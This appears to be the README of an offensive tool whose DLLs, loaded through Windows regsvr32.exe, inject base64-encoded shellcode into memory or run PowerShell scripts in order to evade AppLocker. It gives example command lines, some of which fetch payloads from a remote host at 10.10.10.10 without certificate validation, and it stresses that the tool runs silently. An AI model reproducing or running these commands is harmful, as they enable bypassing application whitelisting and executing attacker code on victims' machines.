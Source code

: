 This project compiles two Dynamic Link Libraries to be used with the "regsvr32.exe" Windows command.
The Windows *regsrv32.exe* command is used to register and unregister DLL's in the Windows registry.   Because it is frequently used, this command is rarely (if ever) blacklisted by Windows "AppLocker". 

Using a combination of the DLL's contained within this project, and the *regsvr32* Windows command, the user of these DLL's can either inject shellcode into memory, or run a PowerShell script by passing appropriate arguments to the "DllInstall()" routine contained within the code.

Any payloads used with this project must be base64 encoded, no matter whether the payload is a PowerShell script, or a binary shellcode.   In the case of shellcode, the system architecture must match.  In other words use either *rs32.dll* or *rs64.dll* depending on whether you have a 32-bit or 64-bit system target.

Payloads can additionally be hosted on a web server and will be read directly from the URL without any TLS/SSL certificate validation.  

Note that you will never be able to troubleshoot errors using this method.   It is completely silent by design.
Additionally, by adding the "/s" flag with *regsvr32.exe*, you are suppressing any dialog popups which are not going to be useful anyway.


Example Usage:

    C:\> regsvr32.exe /s /i:shellcode,payload-32bit.b64 rs32.dll

    C:\> regsvr32.exe /s /i:shellcode,payload-64bit.b64 rs64.dll
    
    C:\> regsvr32.exe /s /i:powershell,script-payload.b64 rs32.dll

    C:\> regsvr32.exe /s /i:shellcode,https://10.10.10.10/payload.b64 rs64.dll

    C:\> regsvr32.exe /s /i:powershell,http://10.10.10.10/pspayload.b64 rs64.dll
    
